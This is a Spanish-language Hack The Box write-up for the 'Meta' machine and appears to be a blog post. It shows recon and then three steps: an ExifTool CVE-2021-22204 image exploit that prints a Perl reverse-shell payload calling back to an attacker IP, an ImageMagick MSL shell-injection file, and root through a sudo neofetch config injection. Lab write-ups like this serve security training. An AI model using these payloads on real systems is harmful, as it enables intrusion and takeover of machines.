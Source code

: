 ```yaml
---
title: Meta
date: 2023-03-09 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Thu Mar  9 20:55:27 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.140
Nmap scan report for 10.10.11.140
Host is up (0.093s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  9 20:55:46 2023 -- 1 IP address (1 host up) scanned in 18.41 seconds
```
En primeras nos encontramos con una página web sin ningun tipo de posibilidad de interacción en ella, Intentanos fuzzear subdominios y encontramos uno.

![imagen1](/assets/images/Meta/meta1.png)

```shell
❯ gobuster vhost -w /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://artcorp.htb/"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://artcorp.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/03/09 20:58:45 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
                                                  
===============================================================
2023/03/09 20:59:31 Finished
===============================================================
```
Al visualizarla nos encotramos con un mensaje donde hay una aplicación en desarrollo y un link hacia esta.

![imagen2](/assets/images/Meta/meta2.png)

![imagen3](/assets/images/Meta/meta3.png)

Intentamos primero subir una imagen para ver que es lo que hace la aplicación. Nos muestra metadatos de la imagen en cuestión como si estuviera utilizando exiftools por detrás.

![imagen4](/assets/images/Meta/meta4.png)

La web presenta una implemntación que nos restringe el subir otro archivo que no sea png o jpg, investigando un poco encontramos este [link](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html "blog"), donde menciona que mediante DjVu podemos crear una imagen con metadata maliciosa para poder ejecutar comandos. Por medio de este [link](https://github.com/UNICORDev/exploit-CVE-2021-22204 "repo") podemos lograr explotar esta vulnerabilidad. Con esto podemos generar el archivo que nos crear este exploit e intentamos subirlo.

```shell
❯ python3 exploit-CVE-2021-22204.py -c whoami

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${system('whoami')};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"
```
![imagen5](/assets/images/Meta/meta5.png)

Vemos que se ejecutan nuestro comando satisfactoriamente, por lo que procedemos a entablarnos una conexión. La misma herramienta tiene una opción de crear un reverse shell, nos ponemos en escucha con nc y estamos dentro.

```shell
❯ python3 exploit-CVE-2021-22204.py -s 10.10.14.22 443

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('10.10.14.22')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"
```
Con pspy podemos ver los procesos que se estań ejecutando y dentro de estos vemos que el usuario Thomas está ejecutando un script para convertir imágenes.

```shell
<SNIP>
2023/03/10 12:03:01 CMD: UID=0     PID=13024  | /usr/sbin/cron -f 
2023/03/10 12:03:01 CMD: UID=0     PID=13029  | /usr/sbin/CRON -f 
2023/03/10 12:03:01 CMD: UID=0     PID=13028  | /usr/sbin/CRON -f 
2023/03/10 12:03:01 CMD: UID=0     PID=13030  | /usr/sbin/CRON -f 
2023/03/10 12:03:01 CMD: UID=0     PID=13031  | /usr/sbin/CRON -f 
2023/03/10 12:03:01 CMD: UID=0     PID=13032  | /bin/sh -c rm /tmp/* 
2023/03/10 12:03:01 CMD: UID=0     PID=13033  | /bin/sh -c rm /var/www/dev01.artcorp.htb/metaview/uploads/* 
2023/03/10 12:03:01 CMD: UID=0     PID=13034  | /bin/sh -c rm /var/www/dev01.artcorp.htb/convert_images/* 
2023/03/10 12:03:01 CMD: UID=1000  PID=13035  | /bin/sh -c /usr/local/bin/convert_images.sh 
2023/03/10 12:03:01 CMD: UID=1000  PID=13036  | /bin/bash /usr/local/bin/convert_images.sh 
2023/03/10 12:03:01 CMD: UID=1000  PID=13037  | /bin/bash /usr/local/bin/convert_images.sh 
<SNIP>
```
Al revisarlo podemos ver que se esta ejectuando mogrify en el script.

```shell
www-data@meta:/tmp/privesc$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
Investigando un poco sobre mogrify vemos que es una de esas herramientas que forma parte del programa ImageMagick (otra muy conocida es el comando convert) y que permite realizar tareas como convertir fotos a otros formatos o modificar el tamaño de las imágenes. Buscando algunas vulnerabilidades sobre esto encontramos este [Link](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html "blog"). Intentamos leer la id_rsa del usuario para poder conectarnos.

```shell
<image authenticate='ff" `echo $(id)> /tmp/privesc/pwned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
```shell
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/pwned 
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```
Dentro con el usuario thomas encontramos que tenemos permisos sudo sobre neofetch, buscando en gtfobins podemos ver que abusa del archivo de configuración que usa neofetch para inyectar un comando y así poder asignarle permisos suid a la bash para así tener permisos como root.

```shell
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```
```shell
thomas@meta:~$ echo 'exec /bin/sh' > .config/neofetch/config.conf
thomas@meta:~$ XDG_CONFIG_HOME=~/.config
thomas@meta:~$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 14 hours, 56 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 150MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
# whoami
root
```
